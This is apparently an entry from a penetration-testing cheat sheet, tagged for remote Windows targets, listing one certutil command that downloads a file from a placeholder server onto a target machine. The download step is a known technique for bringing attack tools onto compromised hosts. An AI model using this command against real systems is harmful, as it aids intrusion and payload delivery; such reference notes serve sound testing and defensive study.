 # cmd.exe

% powershell, download

#plateform/windows #target/remote #cat/UTILS/FILE_TRANSFERT #tag/powershell 


## file transfert - Certutil
```powershell
certutil.exe -urlcache -split -f http://<server>/<source_file> <path>
```
